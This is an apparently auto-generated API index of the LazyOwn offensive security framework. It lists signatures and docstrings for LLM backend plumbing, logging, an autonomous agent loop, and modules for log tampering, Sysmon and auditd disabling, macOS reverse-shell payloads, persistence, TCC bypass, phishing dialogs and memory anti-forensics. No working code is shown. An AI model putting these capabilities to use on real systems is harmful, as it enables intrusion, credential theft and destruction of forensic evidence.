- `get_llm_backend` (line 585) `def get_llm_backend(config, backend)` - *Return a concrete :class:`AIModel` selected by configuration.

The selection order is:

1. Explicit ``backend`` argument when provided.
2. ``llm_backend`` key from ``config`` (or loaded ``payload.json``).
3. :data:`DEFAULT_BACKEND` (``"auto"``).

When the resolved backend is ``"auto"`` the factory tries Groq first
(if an API key is available) and falls back to Ollama. Any other
explicit selection is honoured strictly: callers receive
:class:`LLMBackendUnavailableError` rather than a silent fallback so
they can decide whether to degrade or raise.

The returned backend is wrapped with the budget proxy so the daily
cost cap and the per call token cap are enforced at the single
chokepoint the framework uses. Use :func:`get_llm_backend_raw` to
bypass the wrapper for tests that need a raw backend.

Args:
    config: Optional pre-loaded payload mapping. When ``None`` the
        payload is read from disk.
    backend: Optional override for the backend identifier. Takes
        precedence over the configuration value.

Returns:
    A configured :class:`AIModel` instance that also structurally
    satisfies :class:`core.protocols.LLMBackend`, ready for either
    ``generate`` or ``complete`` calls.

Raises:
    LLMBackendNotSupportedError: When an unsupported identifier is
        requested.
    LLMBackendUnavailableError: When the requested backend cannot
        be constructed from the current environment (for example,
        Groq selected with no API key).*
- `_build_backend` (line 637) `def _build_backend(normalized, resolved_config)` - *Build the raw backend for a normalized identifier.

Args:
    normalized: Normalized backend identifier.
    resolved_config: Mapping derived from ``payload.json``.
Returns:
    The raw concrete backend the factory would return without
    the budget wrapper.
Raises:
    LLMBackendUnavailableError: When the requested backend cannot
        be constructed from the current environment.*
- `get_llm_backend_raw` (line 673) `def get_llm_backend_raw(config, backend)` - *Return a raw :class:`AIModel` without the budget wrapper.

Tests and the CLI command ``llm_budget`` itself use this entry
point so the budget proxy never recurses into itself. Production
callers should keep using :func:`get_llm_backend`.

Args:
    config: Optional pre-loaded payload mapping.
    backend: Optional explicit backend identifier.
Returns:
    The raw concrete backend.*
- `try_get_llm_backend` (line 695) `def try_get_llm_backend(config, backend)` - *Return a backend or ``None`` if construction fails for any reason.

Wraps :func:`get_llm_backend` so call sites that prefer to degrade
gracefully (CLI assistants, opportunistic enrichers) can keep
working when no LLM is reachable.

Args:
    config: Optional pre-loaded payload mapping.
    backend: Optional explicit backend identifier.

Returns:
    A configured :class:`AIModel`, or ``None`` when no backend is
    available.*
- `stream_complete` (line 719) `def stream_complete(model, prompt, max_tokens, on_delta)` - *Completion that reports incremental deltas while it arrives.

Streams through the configured backend's ``stream_generate`` when the
provider supports it and silently falls back to :func:`complete` on
any error, so a backend without streaming never breaks a caller.

Args:
    model: Model spec, same syntax as :func:`complete`.
    prompt: Prompt text (truncated to 6000 chars like the pool path).
    max_tokens: Upper bound hint for the provider.
    on_delta: Optional callback invoked with each text fragment.

Returns:
    The complete reply text.*
- `complete` (line 788) `def complete(model, prompt, max_tokens)` - *Complete a prompt through one model spec; raise when unanswered.

The ``model`` spec accepts an optional ``backend:`` prefix selecting
the leg: ``groq:``, ``ollama:``, ``llamacpp:``, ``auto:`` (groq first, then ollama)
or ``toposwarm:`` (local agentic router, keyless). A bare model name
resolves through the ``auto`` chain. Empty prompt returns empty
string; any backend outage raises so pool callers can fail over to
the next leg and finally to the heuristic path.

Args:
    model: Model spec, optionally prefixed with backend.
    prompt: User prompt text.
    max_tokens: Response token cap.

Returns:
    Response text, never empty on success.

Raises:
    RuntimeError: When no leg answers.*

#### `llm_pool.py`
**Path:** `modules/llm_pool.py`
**File Doc:** *Ordered LLM failover pool with health-aware skipping.  Ports the LAZY llmpool contract. Members form a priority chain with the active profile heading. Failover happens only before the first token. Mid-stream failures surface unchanged for harness resume.*

**Classes:**
- `PoolConfig` (line 29) `class PoolConfig` - *Centralized constants for pool behavior (LAZY llmpool parity).*
- `PoolExhausted` (line 42) `class PoolExhausted(RuntimeError)` - *Raised when every pool member fails a request.*
- `PoolMember` (line 64) `class PoolMember` - *Single provider in the failover chain.*
- `HealthRegistry` (line 75) `class HealthRegistry` - *Failure counting registry with tiered backoff (LAZY parity).

Soft trips after max_failures transient errors; auth errors
(401/402/quota) trip immediately. Backoff tiers are 1m/5m/30m.
State persists to disk so the breaker survives process restarts.*
- `LLMPool` (line 176) `class LLMPool` - *Failover chain over ordered pool members with RR intra-rank.*

**Functions:**
- `_health_path` (line 20) `def _health_path()` - *Resolve the persisted breaker path (env override wins).*
- `shared_registry` (line 50) `def shared_registry(config)` - *Return the process-wide health registry (LAZY Registry parity).

Breaker state survives pool rebuilds so repeated failures across
suggestions trip the breaker instead of resetting each call.*

**Methods:**
- `__init__` (line 83) `def __init__(self, config)` - *Initialize counters from the persisted breaker state.*
- `_load` (line 92) `def _load(self)` - *Load persisted counters, ignoring corrupt or missing state.*
- `_persist_locked` (line 116) `def _persist_locked(self)` - *Write the breaker state; called with the lock held.*
- `report_success` (line 135) `def report_success(self, member_id)` - *Clear failure state for a member.*
- `report_failure` (line 143) `def report_failure(self, member_id, error)` - *Record a failure; auth/quota errors trip immediately.*
- `_backoff_for` (line 155) `def _backoff_for(self, failures)` - *Return the backoff tier for a failure count.*
- `healthy` (line 163) `def healthy(self, member_id)` - *Return True when a member may serve traffic.*
- `__init__` (line 179) `def __init__(self, members, health, config)` - *Order members by descending rank (RR within equal rank).*
- `members` (line 192) `def members(self)` - *Return chain members in order.*
- `session_key` (line 196) `def session_key(self, conversation_id, role, index)` - *Build a sticky session header (LAZY session_header parity).*
- `_ordered` (line 201) `def _ordered(self)` - *Active-first, rank DESC, round-robin within equal rank.*
- `_truncate` (line 217) `def _truncate(self, text, overflow_dir)` - *Cap output at max_output_chars, spilling to a file when set.*
- `complete` (line 237) `def complete(self, prompt, max_tokens, session_key, overflow_dir)` - *Complete a prompt with pre-token failover across members.*

#### `llm_prompts.py`
**Path:** `modules/llm_prompts.py`
**File Doc:** *Canonical prompt-template and knowledge-base contract for LLM consumers.  Owns every task-domain prompt template used by the Groq chat family and the structured helpers (truncation, knowledge-base CRUD, relevance filtering, payload/event context loading) that were previously duplicated across the retired ``modules.legacy.lazygptcli*`` scripts.  This module is pure: it never imports a vendor SDK, never performs network calls, and never reads process environment directly. All filesystem locations and tunables are resolved through :class:`LlmPromptConfig` so tests can point every read/write at temporary fixtures.  Usage::  from modules.llm_prompts import LlmPromptConfig, KnowledgeStore  config = LlmPromptConfig(project_root="/tmp/x") store = config.knowledge_store("vuln") kb = store.relevant("nmap output", limit=5) prompt = config.render("vuln", "raw nmpa output", context=ctx)*

**Classes:**
- `LlmPromptConfig` (line 111) `class LlmPromptConfig` - *Resolved filesystem and behavioural configuration for prompt rendering.

Attributes:
    project_root: Repository root used to locate payload, event and session
        artefacts.
    kb_dir: Directory that stores the knowledge-base JSON files.
    payload_path: Absolute path to payload.json.
    event_config_path: Absolute path to event_config.json or None.
    sessions_dir: Directory that stores per-session plan history.*
- `KnowledgeStore` (line 286) `class KnowledgeStore` - *List-of-dict knowledge base persisted as JSON on disk.*

**Functions:**
- `default_project_root` (line 67) `def default_project_root()` - *Return the repository root that owns the LLM prompt configuration.

Returns:
    Absolute path to the LazyOwn repository root.*
- `resolve_model` (line 76) `def resolve_model(model)` - *Resolve an explicit model or fall back to the randomized Groq model.

Args:
    model: Explicit Groq model identifier or None.

Returns:
    The model to send to the chat completion endpoint.*
- `truncate_message` (line 95) `def truncate_message(message, max_chars)` - *Truncate a message with an ellipsis marker when it exceeds the limit.

Args:
    message: Source text.
    max_chars: Maximum allowed character length.

Returns:
    Truncated text, or the original when it fits within ``max_chars``.*
- `render_kb_tail` (line 271) `def render_kb_tail(lines)` - *Join the most recent knowledge lines for embedding into a prompt.

Args:
    lines: Candidate knowledge strings.

Returns:
    Newline-joined tail of the input limited by
    :data:`KNOWLEDGE_TAIL_LIMIT`.*
- `_payload_block` (line 354) `def _payload_block(config)`
- `_prompt_oneliner` (line 362) `def _prompt_oneliner(base_prompt, kb_text, config)`
- `_prompt_script` (line 378) `def _prompt_script(base_prompt, kb_text, config)`
- `_prompt_adversary` (line 393) `def _prompt_adversary(base_prompt, kb_text, config)`
- `_prompt_general` (line 409) `def _prompt_general(base_prompt, kb_text, config)`
- `_prompt_search` (line 422) `def _prompt_search(base_prompt, kb_text, config)`
- `_prompt_vuln` (line 436) `def _prompt_vuln(base_prompt, kb_text, config)`
- `_prompt_task` (line 450) `def _prompt_task(base_prompt, kb_text, config)`
- `_prompt_redop` (line 462) `def _prompt_redop(base_prompt, kb_text, config)`

**Methods:**
- `from_defaults` (line 130) `def from_defaults(cls, project_root)` - *Build a config rooted at the given project root.

Args:
    project_root: Repository root override; defaults to the detected
        repository root.

Returns:
    A fully-resolved :class:`LlmPromptConfig`.*
- `knowledge_base_path` (line 150) `def knowledge_base_path(self, domain)` - *Return the absolute path for a knowledge-base domain file.

Args:
    domain: One of the keys in :data:`KB_FILE_NAMES`.

Returns:
    Absolute path to the knowledge-base JSON file.*
- `load_payload_context` (line 161) `def load_payload_context(self)` - *Load the operator context keyed by :data:`PAYLOAD_KEY_ORDER`.

Returns:
    Mapping of every payload key to its value or an empty string.*
- `load_event_tool_output` (line 176) `def load_event_tool_output(self, event_name)` - *Load tool output attached to a named event in event_config.json.

Args:
    event_name: Event whose ``tool_output`` path should be read.

Returns:
    File content, or an empty string when no event or file matches.*
- `load_plan_history` (line 203) `def load_plan_history(self)` - *Load the session plan history text if present.

Returns:
    Plan file content, or an empty string when unavailable.*
- `load_report_context` (line 218) `def load_report_context(self)` - *Load the JSON artefacts consumed by the report template.

Returns:
    Mapping of basename to its parsed JSON content.*
- `knowledge_store` (line 238) `def knowledge_store(self, domain)` - *Build a knowledge store bound to a domain file.

Args:
    domain: Knowledge-base domain key.

Returns:
    A :class:`KnowledgeStore` reading and writing the domain file.*
- `render` (line 249) `def render(self, template, base_prompt)` - *Render a named template with shared knowledge and context.

Args:
    template: Template key in :data:`TEMPLATES`.
    base_prompt: Operator prompt substituted into the template.
    kb_lines: Relevant knowledge lines; latest ones are embedded.

Returns:
    Fully rendered system prompt string.*
- `__init__` (line 289) `def __init__(self, path)` - *Initialize a store bound to a single JSON file.

Args:
    path: Absolute path of the knowledge-base file.*
- `load` (line 297) `def load(self)` - *Load the knowledge-base records from disk.

Returns:
    List of ``{"prompt", "response"}`` records; empty on any read error.*
- `save` (line 312) `def save(self, records)` - *Persist a full record list to disk, creating parent directories.

Args:
    records: List of knowledge-base records to write.*
- `add` (line 324) `def add(self, prompt, response)` - *Append a prompt/response record to the knowledge base.

Args:
    prompt: Operator prompt that produced the response.
    response: Model response to remember.*
- `relevant` (line 335) `def relevant(self, prompt, limit)` - *Return knowledge responses whose text shares keywords with the prompt.

Args:
    prompt: Query used to select relevant records.
    limit: Maximum number of responses to return.

Returns:
    List of matching knowledge responses.*

#### `log_tamper.py`
**Path:** `modules/log_tamper.py`
**File Doc:** *Log tampering — Windows Event Log, Linux journald/auditd, macOS unified log.  Provides cross-platform log management for operational security: clearing Windows Event Logs (Security, System, Application), suspending the EventLog service, Linux journalctl vacuum and wtmp/btmp wiping, auditd rule removal, and macOS unified log stream filtering.  All operations produce detailed post-tamper verification reports for the operator to confirm log cleanup success.*

**Classes:**
- `LogTamperConfig` (line 71) `class LogTamperConfig` - *Configuration for log tampering operations.

Attributes:
    target_platform: windows, linux, or macos.
    event_logs: List of Windows event log names to clear.
    log_paths: List of Linux/macOS log file paths.
    suspend_windows_eventlog: Suspend the EventLog service before clearing.
    clear_shell_history: Clear bash/zsh/fish history files.
    restore_eventlog_service: Restart EventLog after tampering.
    verification: Perform post-tamper verification checks.
    timestomp_tamper_evidence: Modify file timestamps of tampered logs.*
- `LogTamper` (line 95) `class LogTamper` - *Cross-platform log tampering with verification.

Generates platform-specific commands for clearing, suspending,
and verifying log tampering on Windows, Linux, and macOS.

Attributes:
    config: LogTamperConfig for target platform and operations.*

**Methods:**
- `__init__` (line 105) `def __init__(self, config)`
- `windows_clear_commands` (line 108) `def windows_clear_commands(self)` - *Generate Windows Event Log clearing commands.

Includes EventLog service suspension, individual log clearing,
PowerShell operational logs, Sysmon, and Defender logs.

Returns:
    Dict with powershell commands, batch commands, and verification.*
- `linux_clear_commands` (line 176) `def linux_clear_commands(self)` - *Generate Linux log clearing commands.

Covers systemd journal, auth logs, shell history, wtmp/btmp,
and optional auditd rule removal.

Returns:
    Dict with bash commands, verification steps, and risk notes.*
- `macos_clear_commands` (line 243) `def macos_clear_commands(self)` - *Generate macOS log clearing commands.

Covers unified log, system log, TCC database reset, and
shell history.

Returns:
    Dict with zsh commands, verification, and TCC notes.*
- `generate_all` (line 295) `def generate_all(self)` - *Generate log tampering commands for all platforms.

Returns:
    Dict with per-platform command lists and verification.*
- `auditd_disable_commands` (line 307) `def auditd_disable_commands(self)` - *Commands to temporarily disable or reconfigure auditd on Linux.

auditd is the Linux Audit Framework — critical for forensic
analysis. Disabling or reconfiguring it significantly reduces
forensic evidence of attacker activity.

Returns:
    Dict with auditd manipulation commands.*
- `sysmon_disable_commands` (line 341) `def sysmon_disable_commands(self)` - *Commands to disable or degrade Sysmon on Windows.

Sysmon (System Monitor) provides detailed process creation,
network connection, and file creation logging. Disabling it
significantly reduces EDR telemetry.

Returns:
    Dict with Sysmon manipulation commands.*

#### `logging_config.py`
**Path:** `modules/logging_config.py`
**File Doc:** *Centralized logging configuration for the LazyOwn framework.  Provides a single point of logging configuration to replace the 61+ scattered `logging.basicConfig()` calls across the codebase.  Usage: from modules.logging_config import configure, get_logger  configure(level=logging.INFO, log_dir="sessions/logs", console=True, file=True) logger = get_logger(__name__) logger.info("Framework started")*

**Classes:**
- `ColoredFormatter` (line 36) `class ColoredFormatter(Formatter)` - *ANSI-colored console formatter matching core.console.py style.*
- `JsonFormatter` (line 53) `class JsonFormatter(Formatter)` - *JSON-line formatter for structured log output.

Outputs each log record as a JSON object with timestamp, level, logger,
message, and optional ``correlation_id``, ``command``, and ``module``.*
- `CorrelationFilter` (line 91) `class CorrelationFilter(Filter)` - *Injects ``correlation_id`` from a ``ContextVar`` into log records.*
- `ResilientRotatingFileHandler` (line 103) `class ResilientRotatingFileHandler(RotatingFileHandler)` - *RotatingFileHandler that degrades gracefully when the log file becomes
unwritable mid-session.

``fast_run_as_r00t.sh`` runs the framework as root while the chown
watcher periodically re-owns the tree to the operator UID, so the log
file can flip ownership and start raising ``PermissionError``. The base
``BaseRotatingHandler.emit`` catches that failure and calls
``handleError``, which by default prints a full traceback for every log
record. This subclass overrides ``handleError`` to emit a single stderr
notice instead, and skips every subsequent record.*

**Functions:**
- `set_correlation_id` (line 134) `def set_correlation_id(cid)` - *Set the correlation ID for the current async/task context.*
- `get_correlation_id` (line 139) `def get_correlation_id()` - *Return the current correlation ID, or None.*
- `clear_correlation_id` (line 144) `def clear_correlation_id()` - *Reset the correlation ID for the current context.*
- `_ensure_log_dir_writable` (line 156) `def _ensure_log_dir_writable(log_dir)` - *Return a writable log directory, fixing ownership when possible.

When ``fast_run_as_r00t.sh`` runs before the regular user, the
``sessions/logs/`` directory can end up owned by root, blocking the
owning user from creating log files. This helper attempts to:

1. Create the directory with the current user's ownership.
2. If it already exists but is owned by root, try to force ownership
   back via ``sudo chown`` (non-interactive, only works with NOPASSWD).
3. If that fails, fall back to ``/tmp/lazyown_<uid>_logs/`` and emit a
   one-time warning so the operator knows to clean up.

Returns the final (possibly fallback) log directory path.*
- `_use_json_format` (line 235) `def _use_json_format()` - *Determine whether to use JSON-line logging.

Checks the ``LAZYOWN_LOG_FORMAT`` environment variable. Accepts ``json``
as a value; anything else falls back to ColoredFormatter.*
- `configure` (line 244) `def configure(level, log_dir, console, file, format_console, format_file, max_bytes, backup_count, module_levels)` - *Configure LazyOwn's centralized logging system.

Args:
    level: Default log level for all loggers.
    log_dir: Directory for log files. Defaults to sessions/.
    console: Enable console logging.
    file: Enable file logging.
    format_console: Format string for console output.
    format_file: Format string for file output.
    max_bytes: Maximum log file size before rotation.
    backup_count: Number of rotated log files to keep.
    module_levels: Dict mapping module names to specific log levels.*
- `get_logger` (line 328) `def get_logger(name, level)` - *Get a logger with the given name.

Ensures all loggers use the centralized configuration without
needing individual basicConfig calls.

Args:
    name: Logger name (e.g., module path).
    level: Optional override log level.

Returns:
    Configured logger instance.*
- `set_level` (line 357) `def set_level(name, level)` - *Set the log level for a specific logger.

Args:
    name: Logger name.
    level: Log level constant.*
- `set_quiet` (line 367) `def set_quiet()` - *Silence all logging below WARNING level.*
- `set_verbose` (line 373) `def set_verbose()` - *Enable DEBUG level logging.*
- `silence_module` (line 379) `def silence_module(name)` - *Completely silence a noisy module.

Args:
    name: Module name pattern (e.g., 'urllib3').*
- `reset` (line 388) `def reset()` - *Reset the logging system to defaults.*

**Methods:**
- `format` (line 39) `def format(self, record)`
- `format` (line 72) `def format(self, record)`
- `filter` (line 94) `def filter(self, record)`
- `emit` (line 116) `def emit(self, record)` - *Write one record, no-op after the file has become unwritable.*
- `handleError` (line 122) `def handleError(self, record)` - *Suppress the default per-record traceback; notify once via stderr.*

#### `loop_ai_bridge.py`
**Path:** `modules/loop_ai_bridge.py`
**File Doc:** *Single edge between the autonomous loop and the LazyOwn AI stack.  The loop does not reimplement AI plumbing: this bridge is the one place where it publishes events to the unified event bus, feeds the episodic Hive Mind memory, consults the detection oracle, uses the MoE router and RL trainer for expert selection and outcome learning, and can ask SWAN for an ensemble plan. Every call is guarded and gated by an orchestrator stage toggle, so disabling a stage (or an unavailable dependency) degrades to a no-op instead of breaking the loop.*

**Functions:**
- `_singleton` (line 50) `def _singleton(key, factory)` - *Return a process-wide instance built lazily, or None on failure.*
- `_stage` (line 64) `def _stage(name, default)` - *Return the orchestrator stage flag, tolerant of config failures.*
- `publish_loop_event` (line 74) `def publish_loop_event(task_id, worker, kind, text, severity)` - *Publish one loop activity to the unified bus and Hive memory.

Raw stream kinds (tool output, LLM chatter) are skipped so the event
ledger stays meaningful; everything else gets a category, severity
and the task id in its payload.*
- `_hive_store` (line 101) `def _hive_store(task_id, worker, kind, text)` - *Persist one meaningful activity into Hive Mind episodic memory.*
- `annotate_detection` (line 125) `def annotate_detection(command, action_category)` - *Return oracle details for one command, or None when unavailable.*
- `moe_route` (line 149) `def moe_route(task_type, goal)` - *Return the MoE router's preferred expert for a task type, or None.*
- `moe_record_outcome` (line 166) `def moe_record_outcome(expert_id, task_type, reward, detection_prob)` - *Feed one execution outcome back to the MoE performance store.*
- `rl_select` (line 185) `def rl_select(task_type, phase, candidates, deterministic)` - *Pick an expert with the RL policy; first candidate when unavailable.*
- `rl_update` (line 207) `def rl_update(task_type, phase, action, reward, candidates, detection_prob)` - *Apply one Q-learning update for an executed action.*
- `rl_save` (line 230) `def rl_save()` - *Persist the RL tables after a run.*
- `record_step` (line 249) `def record_step(task_id, worker, command, output, detection_prob)` - *Feed one executed command outcome to MoE and the RL trainer.

Reward is 1.0 for a productive run (output present, no execution
failure) and 0.0 otherwise; the action is the command's first token
so the trainer learns which tool classes work for this engagement.*
- `swan_available` (line 264) `def swan_available()` - *Return True when the SWAN orchestrator can be constructed.*
- `swan_consult` (line 277) `def swan_consult(prompt, task_type, phase, timeout)` - *Ask SWAN for an ensemble answer; empty string when unavailable.*
- `stream_enabled` (line 304) `def stream_enabled()` - *Return whether token streaming into the activity log is enabled.

Returns:
    True when the ``llm_stream`` stage is on; the pool then asks the
    LLM factory for incremental deltas and reports them as activity.*
- `ai_snapshot` (line 314) `def ai_snapshot()` - *Compact status of the wired AI stack for the operator log.*
- `_open` (line 104) `def _open()`
- `_open` (line 130) `def _open()`
- `_open` (line 152) `def _open()`
- `_open` (line 171) `def _open()`
- `_open` (line 192) `def _open()`
- `_open` (line 214) `def _open()`
- `_open` (line 235) `def _open()`
- `_open` (line 269) `def _open()`

#### `loop_progress.py`
**Path:** `modules/loop_progress.py`
**File Doc:** *Rich Live milestone panel for the autonomous loop.  Renders the orchestrator chain as persistent milestones — green done, blue in-progress (spinner), red still pending — plus intent/fact/finding counts, elapsed time and the latest activity line. The panel stays on screen when the run finishes.  Robustness rules (learned the hard way):  - No markup strings anywhere: every cell is a ``Text`` object with an explicit style, so literal ``[green]`` tags can never leak and foreign ``[brackets]`` in activity lines can never crash rendering. - Fixed panel width (100 cols) with non-wrapping cells: narrow sinks cannot corrupt the live region by wrapping. - Non-terminal sinks never use ``Live`` (Rich would degrade to printing every refresh as a full new panel): they get one compact milestone line per stage change plus the final table at stop. - All output goes through :mod:`core.safe_console`: no ANSI codes on non-tty sinks, ASCII box and markers when stdout cannot encode UTF-8. - Stage states are inferred from the task overview, never asserted.*

**Classes:**
- `LoopSnapshot` (line 80) `class LoopSnapshot` - *Point-in-time task state polled from the session stores.*
- `LoopProgress` (line 169) `class LoopProgress` - *Live milestone panel; call :meth:`refresh` from the poll loop.*

**Functions:**
- `snapshot_from_overview` (line 99) `def snapshot_from_overview(overview, record, activity_tail, elapsed_sec)` - *Build a snapshot from a graph overview dict plus task record.*
- `snap_to_states` (line 123) `def snap_to_states(snapshot)` - *Infer done/active/pending per chain stage from a snapshot.*
- `sanitize_line` (line 151) `def sanitize_line(line, keep_ansi)` - *Strip ANSI codes and carriage returns from a transcript line.

Args:
    line: Raw transcript chunk.
    keep_ansi: Keep SGR color sequences so live worker output keeps
        the colors the command emitted.

Returns:
    Printable line without carriage returns.*

**Methods:**
- `__post_init__` (line 182) `def __post_init__(self)` - *Bind the console to the real stdout captured at construction.

The loop runner redirects ``sys.stdout`` globally while the
orchestrator thread runs; a console resolving ``sys.stdout`` at
print time would write panel lines back into that redirect and
spin forever. Capturing the file here (before the redirect
starts) keeps panel output on the operator's terminal.*
- `live_mode` (line 195) `def live_mode(self)` - *True only when the sink supports a real live region.*
- `start` (line 202) `def start(self)` - *Open the Live display, or print the header in line mode.*
- `stop` (line 229) `def stop(self)` - *Freeze the final panel on screen (both modes).*
- `refresh` (line 246) `def refresh(self, snapshot)` - *Re-render milestones from a fresh snapshot (thread-safe).*
- `emit` (line 268) `def emit(self, line)` - *Print a transcript line above the live panel, colors preserved.*
- `_header` (line 282) `def _header(self)` - *Plain-text header for line mode.*
- `_milestone_line` (line 289) `def _milestone_line(self, snapshot, states, current)` - *One compact line per stage change for line mode.*
- `_footer` (line 306) `def _footer(self, snapshot, elapsed)` - *Plain-text footer (never parses activity content as markup).*
- `_render` (line 324) `def _render(self, snapshot)` - *Build the milestone panel for a snapshot (Text cells only).*

#### `macos_payloads.py`
**Path:** `modules/macos_payloads.py`
**File Doc:** *macOS payload generation — .app bundles, persistence, TCC bypass, Swift/ObjC.  Generates macOS-native payloads: .app bundle wrappers, LaunchDaemon/LaunchAgent persistence, TCC database manipulation payloads, osascript droppers, Swift/ObjC reverse shells, and AppleScript phishing dialogs. All payloads derive connection parameters from payload.json.*

**Classes:**
- `MacOSPayloadConfig` (line 60) `class MacOSPayloadConfig` - *Configuration for macOS payload generation.

Attributes:
    lhost: Attacker IP or hostname for reverse connections.
    lport: Listener port.
    payload_type: generated payload type (reverse_shell, bind_shell, c2_beacon, dropper).
    persistence_method: How to persist (launchdaemon, cron, login_item, etc.).
    app_name: Display name for .app bundles.
    bundle_id: Reverse-DNS bundle identifier.
    tcc_bypass: Attempt to request/hijack TCC permissions.
    codesign: Attempt ad-hoc codesigning of the generated payload.
    obfuscate: Apply base64 + eval obfuscation to shell scripts.
    elevate_perms: Craft payload to check for and exploit sudo/priv escalation.*
- `MacOSPayloadFactory` (line 88) `class MacOSPayloadFactory` - *Generate macOS-native payloads for initial access, persistence, and evasion.

Produces .app bundles, LaunchDaemon/Agent plists, TCC manipulation scripts,
AppleScript phishing dialogs, and Swift/ObjC stagers.

Attributes:
    config: Payload configuration.
    output_dir: Directory for generated artifacts.*

**Methods:**
- `__init__` (line 111) `def __init__(self, config, output_dir)`
- `_obfuscate_shell` (line 116) `def _obfuscate_shell(self, code)`
- `_reverse_shell_command` (line 122) `def _reverse_shell_command(self)`
- `generate_app_bundle` (line 137) `def generate_app_bundle(self)` - *Generate a macOS .app bundle with embedded reverse shell.

Creates a minimal .app directory structure with Info.plist,
executable script, and optional code signing. The .app appears
as a legitimate macOS application.

Returns:
    Path to the generated .app bundle.*
- `_adho_codesign` (line 192) `def _adho_codesign(self, app_dir)` - *Attempt ad-hoc code signing on the generated .app bundle.

Args:
    app_dir: Path to the .app bundle.

Returns:
    True if signing succeeded, False otherwise.*
- `generate_launchd_persistence` (line 212) `def generate_launchd_persistence(self)` - *Generate a LaunchDaemon or LaunchAgent plist for persistence.

Returns:
    Dict with 'plist_path' and 'script_path' for the persistence artifact.*
- `generate_tcc_bypass` (line 268) `def generate_tcc_bypass(self)` - *Generate a TCC bypass script targeting common permissions.

Exploits TCC database (TCC.db) manipulation, FDA (Full Disk Access)
request dialogs, and SSH access to bypass transparency consent.

Returns:
    Shell script for TCC bypass.*
- `generate_osascript_dropper` (line 314) `def generate_osascript_dropper(self)` - *Generate an AppleScript-based dropper that downloads and executes a stage.

Uses osascript with minimal shell interaction to evade shell-based
detection while downloading a second stage via curl.

Returns:
    AppleScript dropper source.*
- `generate_swift_stager` (line 335) `def generate_swift_stager(self)` - *Generate a Swift reverse shell stager.

Compiles to a native Mach-O binary with no external dependencies.
Uses Foundation for socket I/O — requires Xcode or swiftc.

Returns:
    Swift source code.*
- `generate_persistence_scripts` (line 398) `def generate_persistence_scripts(self)` - *Generate all available macOS persistence scripts.

Returns:
    Dict mapping persistence method name to shell script content.*
- `generate_phishing_dialog` (line 447) `def generate_phishing_dialog(self)` - *Generate an AppleScript credential phishing dialog.

Presents a system-looking password prompt capturing credentials
via osascript with GUI dialog.

Returns:
    AppleScript for credential harvesting.*
- `generate_all` (line 470) `def generate_all(self)` - *Generate all macOS payload artifacts.

Returns:
    Dict with all generated payloads keyed by type.*
- `list_tcc_services` (line 517) `def list_tcc_services()` - *Return the list of known TCC service identifiers.*
- `list_persistence_methods` (line 522) `def list_persistence_methods()` - *Return the list of available persistence methods for macOS.*

#### `mario.py`
**Path:** `modules/mario.py`

**Functions:**
- `check_collision` (line 105) `def check_collision(x, y, layer)`

#### `mcp_agent_bridge.py`
**Path:** `modules/mcp_agent_bridge.py`
**File Doc:** *LazyOwn MCP Agent Bridge ======================== Allows Claude (via MCP) to delegate tasks to internal AI agents (Groq / Ollama) running inside LazyOwn, without blocking the MCP server.  Architecture: Claude → lazyown_run_agent(goal, model) → spawns AgentBridgeWorker in a thread → writes live log to sessions/agents/<id>.jsonl Claude → lazyown_agent_status(id)   → progress + last action Claude → lazyown_agent_result(id)   → final answer  Supported backends: - "groq"   : GroqModel via Groq SDK  (requires GROQ_API_KEY) - "ollama" : OllamaModel via OpenAI-compatible SDK → localhost:11434/v1*

**Classes:**
- `GroqAgentWorker` (line 234) `class GroqAgentWorker`
- `OllamaReActWorker` (line 367) `class OllamaReActWorker`
- `AgentBridgeWorker` (line 468) `class AgentBridgeWorker` - *Dispatches to GroqAgentWorker or OllamaReActWorker based on backend.*

**Functions:**
- `_make_client` (line 39) `def _make_client(backend)` - *Return (client, model_name) for the given backend.
Groq: returns Groq SDK client.
Ollama: returns None (OllamaReActWorker uses requests directly).*
- `_ollama_chat` (line 92) `def _ollama_chat(model, messages, max_tokens, timeout)` - *Call Ollama /api/chat and return the assistant text.
Handles reasoning models (qwen3, deepseek-r1) that put output in
message.content or the top-level 'thinking' field.
Uses non-streaming for simplicity with generous timeout.*
- `_agent_file` (line 141) `def _agent_file(agent_id)`
- `_write_log` (line 145) `def _write_log(agent_id, entry)`
- `_read_log` (line 150) `def _read_log(agent_id)`
- `get_agent_status` (line 163) `def get_agent_status(agent_id)` - *Public: returns current status dict for an agent.*
- `get_agent_result` (line 188) `def get_agent_result(agent_id)` - *Public: returns final result + full action log.*
- `list_agents` (line 211) `def list_agents(limit)` - *List recent agents sorted by start time.*
- `start_agent` (line 508) `def start_agent(goal, backend, lazyown_runner_fn, max_iterations)` - *Start an agent in a background thread.
Returns the agent_id for polling.*
- `dummy_runner` (line 531) `def dummy_runner(cmd)`

**Methods:**
- `__init__` (line 235) `def __init__(self, agent_id, goal, client, model, run_cmd, max_iter)`
- `_tools` (line 248) `def _tools(self)`
- `run` (line 264) `def run(self)`
- `__init__` (line 368) `def __init__(self, agent_id, goal, client, model, run_cmd, max_iter)`
- `_parse` (line 381) `def _parse(self, text)` - *Extract (action, answer) from ReAct-format response.*
- `run` (line 389) `def run(self)`
- `__init__` (line 471) `def __init__(self, agent_id, goal, backend, run_cmd, max_iterations)`
- `run` (line 478) `def run(self)`

#### `memory_cleaner.py`
**Path:** `modules/memory_cleaner.py`
**File Doc:** *Memory artifact cleanup — process memory wipe, environment variable scrub, clipboard clear.  Provides memory-level artifact removal to complement disk-level forensic cleaning. Covers process memory overwrite before exit, command history clearing in running processes, environment variable scrubbing, and clipboard/credential cache clearing.  Designed for in-process cleanup on beacon exit to prevent memory forensics from recovering attacker tools, commands, or credentials.*

**Classes:**
- `MemoryCleanerConfig` (line 22) `class MemoryCleanerConfig` - *Configuration for memory artifact cleanup operations.

Attributes:
    target_platform: windows, linux, or macos.
    overwrite_stack: Overwrite stack memory before exit.
    clear_heap: Free and zero-fill heap allocations.
    scrub_environment: Clear environment variables with sensitive data.
    clear_credentials: Wipe credential stores (DPAPI, keychain, keyring).
    clear_clipboard: Clear clipboard contents.
    clear_ntlm_cache: Remove cached NTLM hashes from memory.
    clear_kerberos_tickets: Purge all Kerberos tickets from memory.
    kill_sensitive_processes: Terminate processes that cache sensitive data.
    clean_psreadline: Clear PowerShell PSReadline history from memory.*
- `MemoryCleaner` (line 50) `class MemoryCleaner` - *Generate memory artifact cleanup commands for post-operation stealth.

Produces platform-specific commands for wiping in-memory artifacts:
process memory, environment variables, credential caches, clipboard
data, and Kerberos tickets.

Attributes:
    config: MemoryCleanerConfig for target platform and artifact selection.*

**Methods:**
